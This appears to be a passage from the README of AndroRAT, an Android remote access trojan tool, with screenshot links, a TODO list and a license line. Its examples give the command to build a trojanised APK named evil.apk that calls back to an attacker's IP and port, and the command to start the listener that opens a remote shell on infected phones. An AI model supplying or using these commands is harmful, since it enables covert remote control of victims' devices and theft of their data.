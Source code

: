 ## Examples

* To build the apk:
```python androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python androRAT.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/6.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/1.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------

<<A very useless NOTE here - Pull Request Created :P >>

## TODO
* Set up multi client
* Add screenshot command


## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](https://github.com/karma9874/AndroRAT/blob/master/LICENSE) for more information.


